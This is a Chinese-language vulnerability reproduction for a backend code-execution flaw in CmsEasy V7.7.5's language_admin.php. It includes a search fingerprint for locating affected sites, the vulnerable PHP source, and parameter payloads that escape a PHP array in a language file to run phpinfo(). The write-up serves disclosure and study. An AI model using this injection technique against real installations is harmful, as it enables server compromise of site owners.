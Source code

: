 # CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](./images/202205181433140.png)

存在漏洞的文件为 `lib/admin/language_admin.php`

![image-20220518143419336](./images/202205181434423.png)

```
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面

![image-20220518143447023](./images/202205181434089.png)

其中参数有三个，分别为 `key , cnnote, val`

![image-20220518143502867](./images/202205181435903.png)

传入参数后,查看 `lang/cn/system_custom.php` 文件中

```
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```
test1  test2  test3);
```

写入后文件内容

```
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```
test4  ,test5, 	,phpinfo());/*
```

![image-20220518143515689](./images/202205181435729.png)

写入后文件内容

![image-20220518143533909](./images/202205181435970.png)

访问文件 `/lang/cn/system_custom.php`

![image-20220518143552076](./images/202205181435144.png)